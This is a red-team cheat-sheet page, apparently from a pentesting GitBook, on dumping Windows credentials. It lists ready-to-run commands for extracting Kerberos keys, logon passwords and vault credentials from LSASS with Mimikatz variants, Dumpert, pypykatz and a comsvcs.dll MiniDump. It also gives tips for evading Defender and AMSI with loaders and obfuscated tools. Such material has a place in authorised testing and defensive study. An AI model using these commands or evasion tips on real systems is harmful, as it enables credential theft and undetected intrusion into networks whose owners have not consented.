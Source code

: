 # Credentials Dumping

## LSASS

{% hint style="warning" %}
High chances of detection. Always use the Loader.exe to use these. Otherwise, it will be detected by the defender.
{% endhint %}

Use [impacket ](https://github.com/fortra/impacket)if you are using a Linux machine as an attacker machine. Instead of Mimikatz a obfuscated version called **Invoke-Mimi.ps1**(inside _Tools_ folder) can be used too.

Some of the credentials can be extracted without touching **LSASS**:

* SAM Hive (Registry) - Local Admins (Try to avoid)
* LSA Secrets/Security Hive (Registry) - Service Account Passwords, Domain Cached Credentials (Maybe Detected)
* DPAPI Protected Credentials (Disk) - Credentials Manager/Vault, Browser Cookies, Certificates, Azure Tokens (Best for secops)

### Kerberos encryption keys

The Kerberos SSP used by LSASS in order to provide different authentication methods.\
Therefore, it possible to dump Kerberos encryption keys using `sekurlsa::ekeys`.

<pre class="language-powershell"><code class="lang-powershell"><strong># Check tickets that can be dumpes
</strong>Rubeus.exe triage
<strong>
</strong><strong># Dump credentials on a local machine using Mimikatz.
</strong>Invoke-Mimikatz -Command '"sekurlsa::ekeys"' 

# Using SafetyKatz (Minidump of lsass and PELoader to run Mimikatz)
# Used evasive-keys to bypass ASMI and has been edited in the source code
SafetyKatz.exe "sekurlsa::ekeys" 

# Dump credentials Using SharpKatz (C# port of some of Mimikatz functionality).
SharpKatz.exe --Command ekeys

# Dump credentials using Dumpert (Direct System Calls and API unhooking)
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump

# Using pypykatz (Mimikatz functionality in Python)
pypykatz.exe live lsa

# Using comsvcs.dll
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump
&#x3C;lsass process ID> C:\Users\Public\lsass.dmp full 
</code></pre>

### Logon Passwords

This usually shows recently logged on user and computer credentials.

```powershell
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"' 
```

## Vault

Enumerates vault credentials of scheduled tasks.

```powershell
Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"'
```
